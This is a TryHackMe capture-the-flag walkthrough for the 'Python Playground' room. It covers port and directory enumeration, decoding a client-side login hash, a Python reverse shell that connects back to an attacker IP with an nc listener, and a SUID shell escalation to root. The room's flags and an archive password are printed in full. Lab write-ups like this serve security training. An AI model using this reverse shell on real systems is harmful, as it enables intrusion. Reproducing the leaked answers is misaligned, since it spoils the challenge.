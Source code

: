 
# 🐍 Python Playground - TryHackMe

> Be creative!  
> 🔗 [Python Playground Room](https://tryhackme.com/room/pythonplayground)

---

## 🧠 Topics

- ✅ Network Enumeration (Nmap)
- ✅ Web Enumeration (Gobuster)
- ✅ JavaScript Login Bypass Logic 
- ✅ Python Scripting (Decoder)  
- ✅ Misconfigured Binaries

---

## 🗂️ Appendix Archive

> **Password:** `1 kn0w 1 5h0uldn'7!`

---

## 🎯 Task 1: Hack it!

> *Jump in and grab those flags! All in the usual places: `/home/someuser`, `/root`*

<details>
<summary>🔍 Nmap Results</summary>

```bash
sudo nmap -A -sS -sC -sV -O 10.10.192.182
```

```text
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-16 20:20 IST
Nmap scan report for 10.10.192.182
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f4:af:2f:f0:42:8a:b5:66:61:3e:73:d8:0d:2e:1c:7f (RSA)
|   256 36:f0:f3:aa:6b:e3:b9:21:c8:88:bd:8d:1c:aa:e2:cd (ECDSA)
|_  256 54:7e:3f:a9:17:da:63:f2:a2:ee:5c:60:7d:29:12:55 (ED25519)
80/tcp open  http    Node.js Express framework
|_http-title: Python Playground!
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   239.31 ms 10.21.0.1
2   239.53 ms 10.10.192.182

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.97 seconds
```

🔗 [http://10.10.192.182](http://10.10.192.182)  
🔗 [http://10.10.192.182/login.html](http://10.10.192.182/login.html)  
🔗 [http://10.10.192.182/signup.html](http://10.10.192.182/signup.html)

</details>

---

<details>
<summary>📁 Gobuster Enumeration</summary>

```bash
gobuster dir -u http://10.10.251.33 -w /usr/share/dirb/wordlists/common.txt -x html
```

**Results:**
```
┌──(zenrage-a1105㉿ZenRage-A1105)-[~/thm]
└─$ gobuster dir -u http://10.10.192.182 -w /usr/share/dirb/wordlists/common.txt -x html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.192.182
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin.html           (Status: 200) [Size: 3134]
/index.html           (Status: 200) [Size: 941]
/index.html           (Status: 200) [Size: 941]
/login.html           (Status: 200) [Size: 549]
/signup.html          (Status: 200) [Size: 549]
Progress: 9228 / 9230 (99.98%)
===============================================================
Finished
===============================================================
 ```

🔗 [http://10.10.192.182/admin.html](http://10.10.192.182/admin.html)  
🔗 [View Source](view-source:http://10.10.192.182/admin.html)

</details>

---

<details>
<summary>🔐 JavaScript Login Bypass Logic</summary>

```js
const hash = int_array_to_text(
  string_to_int_array(
    int_array_to_text(string_to_int_array(password))
  )
);

if (hash === "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu")
  window.location = "super-secret-admin-testing-panel.html";
```

🔗 [http://10.10.251.33/super-secret-admin-testing-panel.html](http://10.10.251.33/super-secret-admin-testing-panel.html)
</details>

---

<details>
<summary>🧮 Python Decoder Logic</summary>

```python
def text_to_unicode(string):
    return [str(ord(c)-97) for c in string]

def unicode_to_text(string):
    out = ''
    for i in range(0, len(string), 2):
        out += chr(int(string[i])*26 + int(string[i+1]))
    return out

hash = "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu"
print(unicode_to_text(text_to_unicode(unicode_to_text(text_to_unicode(hash)))))
```

✅ Password: `spaghetti1245`

</details>

---

<details>
<summary>💻 Reverse Shell</summary>

```python
import socket, os, subprocess

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.106.222",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

```bash
# Listener
nc -lnvp 9001
```

</details>

---

<details>
<summary>📜 Flag Dump</summary>

### 🏁 Flag 1 (root):
```bash
cat /root/flag1.txt
```
`THM{7e0b5cf043975e3c104a458a8d4f6f2f}`

---

### 🏁 Flag 2 (connor):
```bash
cat /home/connor/flag2.txt
```
`THM{69a36d6f9da10d23ca0dbfdf6e691ec5}`

---

### 🏁 Flag 3 (via SUID shell):
```bash
/var/log/sh -p
cd /root
cat flag3.txt
```
`THM{be3adc69c25ad14eb79da4eb57925ad1}`

</details>

## 🧠 Tips

- Use `<details>` and `<summary>` in `.md` to make content collapsible  
- Render this using **Markdown Preview Enhanced**, **Obsidian**, or static site generators for best effects  
- For interactivity, embed `copy.js`, `highlight.js`, or use GitHub Pages with custom JS
